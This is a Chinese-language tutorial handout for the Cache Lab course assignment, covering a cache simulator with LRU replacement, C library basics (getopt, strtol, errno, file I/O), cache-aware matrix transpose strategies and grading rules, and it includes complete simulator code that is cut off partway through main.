Part A 的第一步不是写完整的模拟器，而是先让 make 通过：handout 中没有 csim.c，直接 make 会报“No rule to make target 'csim.c'”，先建一个只有空 main 的 csim.c 即可。之后的自测命令如下：
make
./test-csim # Part A 的 8 组测试
./csim-ref -v -s 4 -E 1 -b 4 -t traces/yi.trace
./test-trans -M 32 -N 32 # Part B，另有 64 64、60 68
python3 ./driver.py # 完整评分
valgrind --leak-check=full ./csim -s 5 -E 1 -b 5 -t traces/long.trace最后一行同时检查内存泄漏和越界访问：Part A 有内存泄漏要扣 3 分。评分由代码 88 分和风格 12 分组成，代码部分先按原始的 53 分计算（Part A 27 分、Part B 26 分），再线性折算到 88 分；Part B 三种规模按不命中次数给分，只有转置正确才计分。风格分由助教评定，包括文件头注释、函数注释、缩进、行宽不超过 80 列、错误检查。具体的阈值和扣分项见第 1.1、1.3 节。
0.3 Part A：从骨架到 LRU#
Part A 按“能运行、能读参数、能输出汇总、最后补 LRU”的顺序做最稳。参数解析用 getopt，带值的选项后面要跟冒号，格式串是 "hvs:E:b:t:"；漏掉 t 后面的冒号，-t 就变成了不带值的开关，拿不到文件名。数值用 strtol 而不是 atoi 转换，才能区分“输入了 0”和“输入不合法”。还要记住 s 和 b 是位数而不是个数：s = 0（只有一组，即全相联）和 b = 0（块大小 1 字节）都是合法的参数，只有 E 必须至少为 1（第 2.3、2.4 节）。
模拟器的核心只有几句话，但每一句都有容易错的地方。命中的条件是“有效位为 1 且标记相等”，只比较标记会把 calloc 清零后的空行误判为命中；驱逐只在不命中并且组内所有行都有效时才发生，所以驱逐次数不会超过不命中次数；M 操作是对同一地址先读后写，第二次一定命中。数据结构方面，第 set 组的起点是 cache + set * E，指针加法已经按元素大小缩放，不要再乘 sizeof；标记要用 unsigned long 存放，用 unsigned int 会截断 64 位地址的高位，含有栈地址（0x7ff…）的 trace 就会一直不命中（第 2.2、2.7 节）。
调试时，用 csim-ref 的 -v 输出和自己的 -v 输出做 diff，找到第一处不同的行，从那里入手，不要一次改一大片。valgrind 报出的错误位置不一定是出错的位置：堆上的越界写会破坏相邻的数据，错误常常在稍后、在别的函数里才暴露，例如被指到 fscanf，真正的问题却在组起点的指针算术上。
0.4 Part B：先算后试，用数据定位#
动手写转置之前，先把评测缓存的几何算清楚：s = 5、E = 1、b = 5，32 个组，每组 1 行，一块 32 字节装 8 个 int。一行矩阵占几块，就决定了缓存同时能放下几行，也就决定了分块的边长上限：32×32 一行 4 块，能同时放 8 行；64×64 一行 8 块，只能放 4 行，第 r 行与第 r + 4 行同组；60×68 的行距不是块的整数倍，冲突没有整齐的规律（第 3.1、3.2 节）。冷不命中的朴素下界是 A、B 各自的块数，再加上 4 次与矩阵无关的固定访问。
改进的方向要靠数据来定。test-trans 会把第 i 个注册函数的访存记录存成 trace.fi，用 csim-ref 逐条重放，再按访问类型统计：
./test-trans -M 32 -N 32
./csim-ref -v -s 5 -E 1 -b 5 -t trace.f0 > out.txt # 先存文件，不要直接刷屏
grep miss out.txt | grep -c "^L" # 读不命中的次数
grep miss out.txt | grep -c "^S" # 写不命中的次数有两个细节会让统计出错。第一，csim-ref -v 输出的行首没有空格（“L 10,1 miss”），trace 文件里才有，所以要写 grep "^L" 而不是 grep "^ L"。第二，trace 开头的几次访问不是矩阵元素：大小为 1 的写入是测试程序的标记变量，大小为 8 的读取是函数指针，紧接着两次大小为 4 的读取是参数 M、N，最后还有一次写结束标记；这 4 次访问每次都不命中，是任何写法都免不了的固定开销。只有大小为 4、并且不在开头的访问才是 A、B 的元素，把开头的地址当成 A[0][0]，算出的组号和结论都会是错的。再进一步，把矩阵访问按分块切开，数出每一块的不命中次数：正常的块正好等于它占用的缓存块数，明显偏多的块就是问题所在（第 3.3 节）。
规则方面，“最多 12 个 int 局部变量”按调用链上同时存在的变量计算，严重违反要扣 8 分；不允许使用数组、malloc 和 long，不允许修改 A，B 可以随意使用；transpose_submit 的描述串不能修改（第 1.3 节）。三种规模共用一个 transpose_submit，比较稳的写法是为每种规模写一个辅助函数，各自只声明自己用到的变量。
0.5 常见报错与原因#
表 3 Cache Lab 的报错现象与原因
| 现象 | 可能的原因 | 怎么查、怎么改 |
|---|---|---|
| No rule to make target 'csim.c' | 还没有创建 csim.c | 先建一个只有空 main 的文件 |
| optind、optarg 未声明，或 getopt 隐式声明 | -std=c99 隐藏了 unistd.h 中的 POSIX 声明 | #include <getopt.h> |
| -t 后面拿不到文件名 | getopt 的格式串中 t 后面漏了冒号 | 改成 "hvs:E:b:t:" |
| 小 trace 正确，大 trace 数字不对或段错误 | 组起点算错；标记用了 32 位；int 移位溢出 | 组起点是 set * E；标记用 unsigned long；移位用 1UL |
| valgrind 把错误指到 fscanf | 之前的堆越界写破坏了相邻的数据 | 检查指针算术，不要只看被指出的那一行 |
| Exec format error | 在 ARM 的 Mac 上运行 x86-64 程序 | 换到 Linux 容器 |
grep "^ L" 统计出 0 | csim-ref -v 的行首没有空格 | 改成 grep "^L" |
| 64×64 的 8×8 分块与逐行转置一样差 | 第 r 行与第 r + 4 行同组 | 同时活跃的行不要超过 4 行（第五部分） |
| 借 B 暂存的写法 correctness 为 0 | 暂存区覆盖了另一个块已经写好的结果 | 安排处理顺序，暂存区要在它的主人处理之前用完（第 4.6 节） |
| 60×68 correctness 为 0，不命中约 1700 | 循环写成 j < 60; j += 8，多处理了 56–63 列 | 条件改为 j + 8 <= 60，剩余的列单独处理 |
0.6 提交前检查#
./test-csim 的 8 组测试要全部通过，python3 ./driver.py 的输出就是 Autolab 上的代码分。风格方面，再检查一遍文件头注释和每个函数的注释、行宽、错误检查，以及转置函数的局部变量个数；用 valgrind 确认 csim 没有内存泄漏，编译没有任何警告。最后 make 生成 handin.tar，它包含 csim.c 和 trans.c，只上传这个 tar 包，不要用 zip 等其他格式。
第一部分 规则、工具与评分#
1.1 两个 Part 与评分#
Cache Lab 满分 100 分，其中代码 88 分由程序自动评定，风格 12 分由助教人工评定。代码部分先按原始分计：Part A 27 分，Part B 26 分，共 53 分，再按比例折算成 88 分。
Part A 要写 csim.c，评分用 8 组测试：不同的 (s, E, b) 配上 traces 目录下的不同 trace，前 7 组各 3 分，最后一组（long.trace，约 29 万行）6 分。每组测试中，命中、不命中、驱逐三个数各占三分之一，对一个得一个的分。
Part B 要写 trans.c 中的 transpose_submit，在 32×32、64×64、60×68 三种规模上分别评分。只有转置结果正确，才计性能分。性能分由不命中次数 m 线性决定：
表 4 Part B 的评分（driver.py 中 computeMissScore 的实际写法）
| 规模（M × N） | 分值 | 满分条件 | 0 分条件 | 中间 |
|---|---|---|---|---|
| 32 × 32 | 8 | m ≤ 300 | m ≥ 600 | 线性插值，保留 1 位小数 |
| 64 × 64 | 8 | m ≤ 1300 | m ≥ 2000 | 同上 |
| 60 × 68 | 10 | m ≤ 1600 | m ≥ 2600 | 同上 |
60 × 68 指 M = 60、N = 68：转置函数的原型是 void trans(int M, int N, int A[N][M], int B[M][N])，所以 A 是 68 行 60 列，B 是 60 行 68 列。自动评分程序 driver.py 与 Autolab 上用的是同一个，本地运行 python3 ./driver.py 就能看到最终的折算分。
风格分的扣分项写在 README 中：缺少文件头注释（含姓名学号）扣 3 分，缺少函数注释每个扣 1 分（最多 3 分），缩进不一致扣 3 分，行明显超过 80 列每处扣 1 分（最多 3 分），错误检查不到位扣 2 分。另有两项正确性扣分：Part B 明显违反“最多 12 个 int 局部变量”扣 8 分，Part A 有内存泄漏扣 3 分。
⚠ 实验说明与工具不一致的地方
第一，实验说明第 3 页 -v 的示例输出（L 10,1 miss、M 20,1 miss hit……）与 handout 中的 traces/yi.trace 对不上：现在的 yi.trace 第一行是 L 12,1，而且其中没有 M 操作。示例来自原版 Lab 的 yi.trace，汇总结果“hits:4 misses:5 evictions:3”恰好相同。第二，说明中 S = 2s、B = 2b 是上标在排版中丢失，应为 2s、2b。第三，评分表写“m < 300 得满分”，driver.py 的实际判断是 m ≤ 300。第四，csim-ref 把 -s 0 和 -b 0 当作“缺少参数”拒绝执行，但 s = 0（只有一组，即全相联）和 b = 0（块大小 1 字节）都是合法的参数，自己的模拟器应当接受。
1.2 trace 格式与工具#
trace 由 valgrind 的 lackey 工具产生，每行一次或两次访存，格式为“[空格]操作 地址,字节数”：
I 0400d7d4,8 # 取指令：行首没有空格，Part A 忽略
L 04f6b868,8 # 读数据（load）
S 7ff0005c8,8 # 写数据（store）
M 0421c7f0,4 # 修改（modify）：一次读加一次写，地址相同地址是 64 位的十六进制数，不带 0x 前缀；字节数在 Part A 中可以忽略，因为实验说明保证一次访问不会跨越块的边界。handout 中的 6 个 trace 都不含 I 行，只有 mem.trace 中有 M 操作（247 行）。
handout 提供的工具如下。csim-ref 是参考模拟器，./csim-ref -v -s 4 -E 1 -b 4 -t traces/yi.trace 会逐行打印每次访问的结果；-v 是调试 Part A 最有用的选项，用 diff 比较自己的输出和它的输出，就能找到第一处不同。test-csim 用 8 组测试给 Part A 打分。test-trans 给 Part B 打分：它先运行 tracegen 检查转置是否正确，再用 valgrind 记录转置函数的访存，把第 i 个注册函数的 trace 存为 trace.fi，最后用 csim-ref 以 s = 5、E = 1、b = 5 重放，得出不命中次数。driver.py 依次调用 test-csim 和 test-trans，汇总成最终分数。
make # 编译全部程序并打包 handin.tar
./test-csim # Part A：8 组测试
./test-trans -M 32 -N 32 # Part B：一种规模，列出每个注册函数的结果
./csim-ref -v -s 5 -E 1 -b 5 -t trace.f0 > out.txt # 重放转置函数的访存
python3 ./driver.py # 全部评分Makefile 的编译选项是 -g -Wall -Werror -std=c99，任何警告都会导致编译失败。-std=c99 会关掉 unistd.h 中的 POSIX 声明，所以 csim.c 要 #include <getopt.h>，否则 getopt、optarg、optind 都是未声明的标识符。
1.3 Part B 的编程规则#
Part B 的规则都与“评测只能看到 A、B 两个数组的访问”有关。test-trans 为了去掉 valgrind 自己产生的大量栈访问，只保留地址低于 0xffffffff 的访存，而栈在高地址，所以局部变量的读写不会出现在 trace 中，也不计入不命中。为了不让人利用这一点把整个矩阵搬到栈上，实验说明规定：
表 5 Part B 的编程规则
| 规则 | 说明 |
|---|---|
| 每个转置函数最多 12 个 int 局部变量 | 有辅助函数时，调用链上同时存在的局部变量合计不超过 12 个 |
| 不能用 long 或位运算把多个值塞进一个变量 | 防止绕过上一条 |
| 不能定义数组，不能用 malloc | 数组会放在栈上，不被计数 |
| 不能递归 | 递归会让栈上的变量数目无法控制 |
| 不能修改 A | B 可以随意使用，包括暂时存放与最终结果无关的数据 |
| 转置函数的说明字符串必须是 "Transpose submission" | 评分程序靠它找到要评分的函数 |
最后一条“B 可以随意使用”很重要：第四、五部分 32×32 和 64×64 的最佳写法都利用了这一点，先把数据放进 B 中暂时用不到的位置，再搬到最终的位置。另外，只要求三种规模的结果正确，所以可以按 M、N 分情况写三段不同的代码。
常见问题：12 个局部变量怎么数？
按“同时存在于栈上”的个数数。一个函数里如果用 if 分出三段代码，各段在自己的块里声明变量，严格说同一时刻只有一段的变量存在，但助教人工检查时可能按整个函数计数。比较稳妥的写法是每种规模写一个辅助函数，主函数只做分派：主函数不声明变量，或只声明很少的几个，再加上辅助函数自己的变量，合计不超过 12。函数参数（M、N、A、B 和传给辅助函数的下标）通常不计入。本讲义第四至六部分的代码都按这个方式写，每处都注明了变量个数。
第二部分 Part A：缓存模拟器#
2.1 地址划分#
模拟器只关心“这次访问命中了没有”，不保存任何数据，所以每一行缓存只需要记三样东西：有效位、标记（tag）、以及 LRU 要用的“最近一次使用的时间”。一个 64 位地址按第 13 讲 13.2 节的方法拆成三段：低 b 位是块内偏移，中间 s 位是组索引，其余高位是标记。
set = (addr >> b) & ((1UL << s) - 1); /* 中间 s 位 */
tag = addr >> (s + b); /* 高 64-s-b 位 */两点要注意。第一，全部用 unsigned long 计算。地址是 64 位，若把 tag 存进 unsigned int，高位被截断，两个不同的块就可能被当成同一块；若写成 1 << s，s ≥ 31 时 int 溢出。第二，s = 0 时掩码 (1UL << 0) - 1 等于 0，组号恒为 0，正好是全相联，不需要特判；但 s + b = 64 时 addr >> 64 是未定义行为，参数检查时要拦住。
以 -s 4 -E 1 -b 4 和 traces/yi.trace 为例：块大小 16 字节、16 组、每组 1 行。地址 0x12 的组号是 (0x12 >> 4) & 0xF = 1，标记是 0x12 >> 8 = 0；地址 0x110 的组号也是 1，标记是 1。下表逐行列出 9 次访问，结果与 csim-ref 的 -v 输出一致。
表 6 yi.trace 在 s = 4、E = 1、b = 4 上的逐行结果
| 访问 | 组 | 标记 | 结果 | 说明 |
|---|---|---|---|---|
| L 12 | 1 | 0 | miss | 冷不命中 |
| L 22 | 2 | 0 | miss | 冷不命中 |
| S 22 | 2 | 0 | hit | 同一块 |
| L 24 | 2 | 0 | hit | 0x20～0x2f 在同一块 |
| S 18 | 1 | 0 | hit | 0x10～0x1f 在同一块 |
| L 110 | 1 | 1 | miss eviction | 组 1 只有一行，驱逐标记 0 |
| L 210 | 1 | 2 | miss eviction | 驱逐标记 1 |
| L 14 | 1 | 0 | miss eviction | 标记 0 已被驱逐，冲突不命中 |
| S 14 | 1 | 0 | hit | 合计 hits:4 misses:5 evictions:3 |
改成 E = 2（-s 4 -E 2 -b 4），组 1 能放两块：L 110 时组里还有空行，只是不命中，不算驱逐；L 210 时组满了，驱逐最久未用的标记 0（最后一次使用是 S 18）；L 14 再驱逐标记 1。结果是 hits:4 misses:5 evictions:2，这正是 test-csim 第 2 组测试的答案。
2.2 数据结构与 LRU#
组数 2s 和每组行数 E 在运行时才知道，所以缓存要用 calloc 动态分配：一共 2s × E 行，第 i 组从下标 i × E 开始。calloc 会把所有字节清零，有效位为 0 正好是“空行”，这是选 calloc 而不是 malloc 的原因。分配的大小只与行数有关，与块大小 B 无关，因为模拟器不保存数据。
LRU 最简单的实现是时间戳：维护一个全局计数器，每次访问加 1；命中或装入一行时，把这一行的时间戳设为当前计数。需要驱逐时，在组内找时间戳最小的那一行。时间戳用 unsigned long，long.trace 只有约 29 万次访问，int 也够用，但没有必要冒溢出的风险。
另一种做法是给每行记一个“年龄”，每次访问把组内其他行的年龄加 1、被访问的行清零，驱逐年龄最大的行；或者把每组的行组织成链表，命中时移到表头，驱逐表尾。三种做法结果相同，时间戳的代码最短，每次访问只修改一行。
有三个规则必须与 csim-ref 完全一致，否则数字会对不上：
表 7 命中、不命中与驱逐的准确含义
| 概念 | 准确含义 |
|---|---|
| 命中 | 组内有一行同时满足“有效”且“标记相等”。只比标记不比有效位，calloc 之后标记全为 0 的空行会被误判为命中 |
| 驱逐 | 不命中，并且这一组的 E 行全部有效，只能替换一行。组内还有空行时只计不命中，所以驱逐数一定不超过不命中数 |
| 使用 | 只有命中和装入算“使用”，要更新时间戳。查找时扫过的其他行不算使用 |
| M 操作 | 同一地址先读后写，按两次访问处理。第一次不论命中与否，块都已在缓存中，第二次一定命中 |
2.3 C 库速成（一）：命令行参数#
Part A 用到的几个库函数，课程里没有专门讲过，但它们都是写命令行程序的基本功。本节和下面两节逐个讲清楚，并给出不用这些函数的“手写”写法，两种写法都能通过 test-csim。先看各个名字由哪个头文件提供：
表 8 Part A 用到的头文件
| 头文件 | 提供的名字 | 说明 |
|---|---|---|
| stdio.h | printf、fprintf、fscanf、fopen、fclose、perror、FILE、stdout、stderr | C 标准库 |
| stdlib.h | atoi、strtol、calloc、free、exit、EXIT_SUCCESS、EXIT_FAILURE | C 标准库 |
| string.h | strcmp、strerror | C 标准库 |
| errno.h | errno、ERANGE | C 标准库 |
| limits.h | INT_MAX、INT_MIN、LONG_MAX | C 标准库 |
| unistd.h | getopt、optarg、optind 等 | POSIX（类 Unix 系统的接口），不属于 C 标准 |
| getopt.h | 同上，另有 getopt_long | GNU 的头文件 |
argc 与 argv#
main 的两个参数描述了命令行：argc 是“单词”的个数，argv[0]～argv[argc−1] 依次指向每个单词（以空格分隔的字符串），argv[0] 是程序名本身。例如运行 ./csim -v -s 4 -E 1 -b4 -t traces/yi.trace，argc = 9，argv[1] 是 "-v"，argv[2] 是 "-s"，argv[3] 是 "4"，argv[6] 是 "-b4"。注意 argv 中都是字符串，"4" 还要自己转换成整数（第 2.4 节）。
最直接的办法是自己写一个循环，逐个比较：
for (i = 1; i < argc; i++) {
if (strcmp(argv[i], "-v") == 0)
verbose = 1;
else if (strcmp(argv[i], "-t") == 0 && i + 1 < argc)
tracefile = argv[++i]; /* the next word is the value */
else if (strcmp(argv[i], "-s") == 0 && i + 1 < argc) {
if (parse_nonneg(argv[++i], &s) < 0)
s = -1;
} else if ... /* -E, -b, -h likewise */
else {
fprintf(stderr, "%s: bad argument '%s'\n", argv[0], argv[i]);
return 1;
}
}strcmp 在两个字符串相等时返回 0。i + 1 < argc 保证选项后面确实还有一个单词，否则 -t 出现在最后时会读到 argv[argc]（它是空指针）。test-csim 调用模拟器的格式固定为 ./csim -s %d -E %d -b %d -t %s，这个手写版本已经足够；本讲义附带的 csim_noopt.c 就是这样写的，通过了全部测试。
getopt#
getopt 把上面的循环包装成了库函数，每调用一次返回下一个选项字母，处理完返回 −1：
while ((opt = getopt(argc, argv, "hvs:E:b:t:")) != -1) {
switch (opt) {
case 's': ... optarg ... ; break; /* optarg points to the value */
...
default: /* '?': unknown option or missing value */
usage(stderr, argv[0]);
return 1;
}
}第三个参数是选项表：每个字母是一个合法的选项，后面带冒号的选项要跟一个值，这个值通过全局变量 optarg 交给调用者（optarg 指向 argv 中的那个字符串，不需要复制）。用前面的 opt.c 实测（本讲义附带的演示程序），几种情况的结果如下：
表 9 getopt 的几种情况（格式串 "hvs:E:b:t:"，glibc 实测）
| 命令行 | getopt 的行为 |
|---|---|
-v -s 4 -E 1 -b4 -t traces/yi.trace | 依次返回 v、s（optarg "4"）、E、b（optarg "4"：值可以紧贴在字母后面）、t，再返回 −1；结束后 optind = 9 = argc |
-vs 4 | 不带值的选项可以合写：返回 v，再返回 s（optarg "4"） |
-s 4 -t | -t 缺少值：getopt 自己向 stderr 打印“option requires an argument -- 't'”，返回 '?' |
-x -s 4 | 未知选项：打印“invalid option -- 'x'”，返回 '?'，然后继续处理 -s |
-s -1 extra -E 2 | -s 后面的单词即使以减号开头，也被当作它的值，optarg 为 "-1"；不是选项的 "extra" 被挪到最后，循环结束时 optind = 5，argv[5] 是 "extra" |
optind 是“下一个要处理的 argv 下标”。循环结束后若 optind < argc，说明命令行中还有多余的单词，可以据此报错。如果想自己打印错误信息，可以把全局变量 opterr 置为 0，getopt 就不再打印；这时出错的选项字母放在 optopt 中。
getopt 不会替你检查必需的选项有没有出现。某个选项根本没写时，循环里对应的 case 一次也不执行，变量保持初值，所以初值要选一个合法输入不可能给出的值，例如 −1，循环结束后统一检查 s < 0 || E < 1 || b < 0 || trace == NULL，一个条件同时覆盖“没给”和“给错”。下面的小程序把两种初值放在一起比较：
/* optmiss.c：选项没有出现时，对应的 case 根本不执行，变量保持初值 */
#include <getopt.h>
#include <stdio.h>
#include <stdlib.h>
int main(int argc, char *argv[])
{
int opt, s0 = 0, s1 = -1;
while ((opt = getopt(argc, argv, "s:")) != -1)
if (opt == 's')
s0 = s1 = atoi(optarg);
printf("初值 0：s = %d；初值 -1：s = %d\n", s0, s1);
return 0;
}$ ./optmiss
初值 0：s = 0；初值 -1：s = -1
$ ./optmiss -s 0
初值 0：s = 0；初值 -1：s = 0
$ ./optmiss -s 4
初值 0：s = 4；初值 -1：s = 4用 0 作初值时，“没有写 -s”和“写了 -s 0”得到同一个值，程序无从区分。csim-ref 看来就是这样写的：第 1.1 节提到它把 -s 0 当作“Missing required command line argument”拒绝执行，而 s = 0 本是合法的参数（只有一组，即全相联缓存）。
最后是头文件的问题。getopt 属于 POSIX，声明在 unistd.h 中，但 Makefile 用 -std=c99 编译，这个选项要求只提供 C 标准中的名字，unistd.h 中 getopt 的声明就被隐藏了。只包含 unistd.h 时，实测的编译错误是：
error: implicit declaration of function 'getopt' [-Werror=implicit-function-declaration]
error: 'optarg' undeclared (first use in this function)
error: 'optind' undeclared (first use in this function)所以要像实验说明建议的那样 #include <getopt.h>。另一个办法是改用 -std=gnu99，但 Makefile 不能改，评分时用的是原来的选项。
2.4 C 库速成（二）：字符串转整数与 errno#
atoi 的问题#
atoi(str) 把字符串开头的十进制数转换成 int，用起来最简单，但它没有任何办法报告错误。下表是实测结果：
表 10 atoi 与 strtol(str, &end, 10) 的对比（x86-64 Linux 实测）
| 输入 | atoi | strtol 的返回值 | end 指向 | errno |
|---|---|---|---|---|
| "12" | 12 | 12 | ""（末尾） | 0 |
| "abc" | 0 | 0 | "abc"（没动） | 0 |
| ""（空串） | 0 | 0 | "" | 0 |
| "4x" | 4 | 4 | "x" | 0 |
| "4.5" | 4 | 4 | ".5" | 0 |
| " 7" | 7 | 7 | "" | 0 |
| "-3" | −3 | −3 | "" | 0 |
| "99999999999999999999" | −1（无定义） | LONG_MAX | "" | ERANGE |
“abc”和“0”在 atoi 看来都是 0；“4x”“4.5”被悄悄截成 4；溢出时 C 标准规定 atoi 的行为是未定义的，本机得到 −1。命令行参数是用户输入的，这些情况都应当报错。
strtol#
long strtol(const char *str, char **end, int base) 从 str 的开头读一个 base 进制的整数（跳过前导空白，允许正负号），返回读到的值，并把 *end 设为第一个没有用到的字符的位置。判断“整个字符串恰好是一个合法的数”需要三项检查：
char *end;
long v;
errno = 0; /* strtol does not clear errno on success */
v = strtol(str, &end, 10);
if (end == str) /* no digits at all: "", "abc" */
return -1;
if (*end != '\0') /* trailing junk: "4x", "4.5" */
return -1;
if (errno == ERANGE) /* out of range of long */
return -1;
if (v < INT_MIN || v > INT_MAX) /* fits in long but not in int */
return -1;errno 是标准库的一个全局的“错误码”变量，声明在 errno.h 中。库函数出错时往往把它设成某个正数（ERANGE 表示“结果超出范围”，打开文件失败时可能是 ENOENT“文件不存在”，等等），但成功时一般不会把它清零。所以使用 errno 的规矩是：调用之前自己置 0，调用之后、在调用任何别的库函数之前检查它。表中的 “99999999999999999999” 就靠 errno 才能发现：strtol 返回 LONG_MAX，这本身也是一个合法的值。
最后一项检查是因为 long 是 64 位、int 是 32 位，“3000000000”在 long 范围内，strtol 不报错，但装不进 int。INT_MIN、INT_MAX 在 limits.h 中。
不用 strtol 的写法#
如果不熟悉 strtol，自己逐个字符检查也完全可以。s、E、b 都不是负数，只需接受数字：
/* parse_nonneg - str must be all decimal digits; return 0 and store the
* value on success, -1 if empty, has other characters, or exceeds INT_MAX */
static int parse_nonneg(const char *str, int *out)
{
int v = 0, d;
if (*str == '\0')
return -1;
for (; *str; str++) {
if (*str < '0' || *str > '9')
return -1;
d = *str - '0';
if (v > (INT_MAX - d) / 10) /* v * 10 + d would overflow */
return -1;
v = v * 10 + d;
}
*out = v;
return 0;
}溢出检查的思路是：v * 10 + d > INT_MAX 等价于 v > (INT_MAX - d) / 10，而后者的计算本身不会溢出。这个函数拒绝空串、负号、小数点、多余的字符和过大的数，作用与上面的 strtol 版本相同。
2.5 C 库速成（三）：文件、输出与退出码#
打开和读取文件#
fopen(name, "r") 以只读方式打开文件，返回一个 FILE *，失败时返回 NULL（文件不存在、没有权限等）。用完之后要 fclose(fp)。读 trace 用 fscanf，它与 scanf 相同，只是第一个参数指定从哪个文件读：
while (fscanf(fp, " %c %lx,%d", &op, &addr, &size) == 3) {
if (op == 'I')
continue;
...
}格式串开头的空格表示“跳过任意多个空白字符，包括零个”，所以 I 行（行首无空格）和 L、S、M 行（行首一个空格）可以用同一个格式读，读出 op 后再判断。%lx 读一个十六进制数存进 unsigned long，逗号必须与输入中的逗号一致，%d 读字节数。格式符与变量类型必须一一对应：若用 %x 读进 unsigned long，或用 %lx 读进 unsigned int，fscanf 写入的字节数与变量大小不符，可能覆盖相邻的变量。fscanf 返回成功读入的项数，读到文件末尾时返回 EOF（−1），格式不符时返回较小的数，循环条件写“== 3”就同时处理了这两种情况。
另一种常见写法是先用 fgets(buf, sizeof buf, fp) 读入一整行，再用 sscanf(buf, ...) 从这一行中取数，好处是一行格式不对时不会影响下一行。本 Lab 的 trace 格式规整，两种写法都可以。
stdout 与 stderr#
每个程序启动时都有三个已经打开的 FILE：标准输入 stdin、标准输出 stdout、标准错误 stderr。printf(...) 就是 fprintf(stdout, ...)；错误信息应当用 fprintf(stderr, ...) 写到 stderr。两者默认都显示在终端上，区别在于重定向：./prog > out.txt 只把 stdout 写进文件，stderr 仍然显示在终端上；2> err.txt 才重定向 stderr。这样，正常的结果和错误信息可以分开处理。用一个先写 stdout、再写 stderr 的小程序实测：
#include <errno.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char *argv[])
{
FILE *fp;
printf("to stdout\n");
fprintf(stderr, "to stderr\n");
if (argc < 2) {
fprintf(stderr, "usage: %s <file>\n", argv[0]);
return 1;
}
if ((fp = fopen(argv[1], "r")) == NULL) {
int saved = errno;
perror(argv[1]);
fprintf(stderr, "errno = %d, strerror: %s\n", saved, strerror(saved));
exit(EXIT_FAILURE);
}
fclose(fp);
return EXIT_SUCCESS;
}打开一个不存在的文件，把两种输出分别重定向：
$ ./io nofile.txt > out.txt 2> err.txt ; echo $?
1
$ cat out.txt
to stdout
$ cat err.txt
to stderr
nofile.txt: No such file or directory
errno = 2, strerror: No such file or directory还有一个细节：stdout 输出到终端时按行缓冲，遇到换行就输出；重定向到文件或管道时变成全缓冲，攒满一块或程序结束时才输出。stderr 不缓冲。所以两者混在一起看时，顺序可能与程序中的顺序不同：一个依次输出“1 stdout”“2 stderr”“3 stdout”的程序，输出接到管道时实测显示为“2 stderr”“1 stdout”“3 stdout”。
perror、strerror 与 errno#
文件打不开时，原因记在 errno 中。perror(s) 向 stderr 打印“s: 原因”，原因就是 errno 对应的文字，例如上面的“nofile.txt: No such file or directory”；strerror(errno) 则返回这段文字，可以自己组织格式。和 strtol 一样，要在失败的调用之后立即使用，中间调用别的库函数可能改变 errno。
退出码#
main 的返回值就是程序的退出码，在 shell 中用 echo $? 查看。约定 0 表示成功，非 0 表示出错；stdlib.h 中的 EXIT_SUCCESS、EXIT_FAILURE 就是这两个意思。在 main 之外的函数中想直接结束程序，用 exit(code)，效果与从 main 返回相同（打开的 FILE 会被刷新、关闭）。按惯例，用户用 -h 主动请求帮助时，把用法打印到 stdout 并返回 0；参数错误时打印到 stderr 并返回 1。
test-csim 怎样取结果#
test-csim 用 ./csim -s %d -E %d -b %d -t %s > /dev/null 运行模拟器，stdout 被直接丢弃，结果是从 printSummary 写的 .csim_results 文件中读的。所以第一，一定要调用 printSummary，自己 printf 一行同样的文字是没有用的；第二，-v 的输出和其他 stdout 内容不会影响评分；第三，stderr 不受这个重定向影响，调试信息写到 stderr 会显示在评分输出中。
calloc 与 free#
calloc(n, size) 分配 n 个大小为 size 的元素并全部清零，失败时返回 NULL；malloc(bytes) 只分配不清零。分配的内存在 free 之前一直存在，忘记 free 就是内存泄漏，会被扣分。valgrind -q --leak-check=full ./csim -s 5 -E 1 -b 5 -t traces/long.trace 可以检查泄漏和越界访问：加了 -q 时，除了模拟器自己的输出之外没有别的内容，就说明没有问题，有越界时它会指出第一次非法访问发生在哪一行。
2.6 完整代码#
下面是一份完整的 csim.c（略去文件头注释），约 140 行，按顺序分四段列出。它通过 test-csim 的全部测试，-v 的逐行输出与 csim-ref 相同（csim-ref 在每行末尾多一个空格），valgrind 检查没有泄漏和越界。
#include <errno.h>
#include <getopt.h>
#include <limits.h>
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include "cachelab.h"
typedef struct {
int valid;
unsigned long tag;
unsigned long stamp; /* time of last use, for LRU */
} line_t;
static line_t *cache; /* S * E lines, set i at cache[i * E] */
static int s, E, b, verbose;
static unsigned long now; /* global clock, one tick per access */
static int hits, misses, evictions;
static void usage(FILE *fp, const char *prog)
{
fprintf(fp, "Usage: %s [-hv] -s <s> -E <E> -b <b> -t <tracefile>\n"
" -h print this help message\n"
" -v verbose: print hit/miss/eviction for each access\n"
" -s number of set index bits (S = 2^s sets)\n"
" -E number of lines per set\n"
" -b number of block bits (B = 2^b bytes per block)\n"
" -t valgrind trace file\n", prog);
}第一段是头文件、每行缓存的结构、全局变量和 usage。usage 的第一个参数决定打印到哪里：-h 时传 stdout，参数出错时传 stderr。
/* parse_int - read a whole decimal int from str; return 0 on success */
static int parse_int(const char *str, int *out)
{
char *end;
long v;
errno = 0;
v = strtol(str, &end, 10);
if (end == str || *end != '\0' || errno == ERANGE ||
v < INT_MIN || v > INT_MAX)
return -1;
*out = (int) v;
return 0;
}第二段是第 2.4 节的 strtol 版本，转换失败返回 −1。
/* access_cache - simulate one access to addr and update the counters */
static void access_cache(unsigned long addr)
{
unsigned long set = (addr >> b) & ((1UL << s) - 1);
unsigned long tag = addr >> (s + b);
line_t *line = cache + set * E; /* first line of the set */
line_t *victim = line;
int i;
now++;
for (i = 0; i < E; i++)
if (line[i].valid && line[i].tag == tag) {
hits++;
line[i].stamp = now;
if (verbose)
printf(" hit");
return;
}
misses++;
if (verbose)
printf(" miss");
for (i = 0; i < E; i++) { /* empty line first, else LRU */
if (!line[i].valid) {
victim = &line[i];
break;
}
if (line[i].stamp < victim->stamp)
victim = &line[i];
}
if (victim->valid) {
evictions++;
if (verbose)
printf(" eviction");
}
victim->valid = 1;
victim->tag = tag;
victim->stamp = now;
}第三段模拟一次访问。
int main(int argc, char *argv[])
{
int opt, size;
char op, *tracefile = NULL;
unsigned long addr;
FILE *fp;
s = E = b = -1;
while ((opt = getopt(argc, argv, "hvs:E:b:t:")) != -1) {
switch (opt) {
case 'h': usage(stdout, argv[0]); return 0;
case 'v': verbose = 1; break;
case 's': if (parse_int(optarg, &s) < 0) s = -1; break;
case 'E': if (parse_int(optarg, &E) < 0) E = -1; break;
case 'b': if (parse_int(optarg, &b) < 0) b = -1; break;
case 't': tracefile = optarg; break;
